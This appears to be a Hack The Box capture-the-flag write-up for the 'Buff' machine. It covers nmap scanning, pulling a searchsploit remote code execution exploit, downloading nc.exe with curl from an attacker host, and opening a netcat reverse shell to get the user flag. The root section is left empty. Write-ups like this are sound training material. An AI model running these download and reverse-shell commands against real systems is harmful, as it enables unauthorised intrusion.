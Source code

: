 # -HTB-Buff


### I start with nmap 


```
nmap -p- -sVC 10.10.10.198 -oN nmap_scan --min-rate 5000
```

<img width="1185" height="302" alt="image" src="https://github.com/user-attachments/assets/a1c47b7e-1faa-4eb8-9317-65e22bebb411" />


### On port 8080, in contact.php we can see the site name and version

<img width="763" height="184" alt="image" src="https://github.com/user-attachments/assets/f38a97d7-94ea-4edb-9266-3e14bfd576b9" />


### I used searchsploit and found multiple results , i chose the remote code execution one:

```
searchsploit -m php/webapps/48506.py 
```


<img width="1391" height="208" alt="image" src="https://github.com/user-attachments/assets/7b4ebe7b-278e-454d-a1b3-49382ebb14c2" />

### I tried with python 3, but it didn t work because it requires python 2.


<img width="905" height="112" alt="image" src="https://github.com/user-attachments/assets/c87844cf-bdbd-4309-a15c-7e72a8bcb89f" />


<img width="620" height="246" alt="image" src="https://github.com/user-attachments/assets/0c4867f6-de82-467d-beb7-d38b6923a5b9" />


### Because every time we run a command we can t change directory, so let s spawn a reverse shell.


<img width="675" height="448" alt="image" src="https://github.com/user-attachments/assets/34eaea54-83a8-4186-9c8e-af0e3def70af" />


### We have curl , so we can downlad nc 

```
curl http://10.10.14.25:8000/nc.exe -o nc.exe
```




<img width="695" height="379" alt="image" src="https://github.com/user-attachments/assets/c62819ff-6c6a-4c3e-822f-d5f7e2e02c64" />

<img width="781" height="333" alt="image" src="https://github.com/user-attachments/assets/300e21f1-7605-44b0-879b-1139a92716d6" />


### And run nc 

```
nc.exe 10.10.14.25 1337 -e powershell
```

<img width="821" height="368" alt="image" src="https://github.com/user-attachments/assets/31e1f7fe-9d00-470c-a3fe-66363f6da184" />


### On the desktop of the user shaun we find the users flag

<img width="355" height="63" alt="image" src="https://github.com/user-attachments/assets/8eda17ae-9d8e-4df2-a808-a30d35dfc125" />




# Root 
...


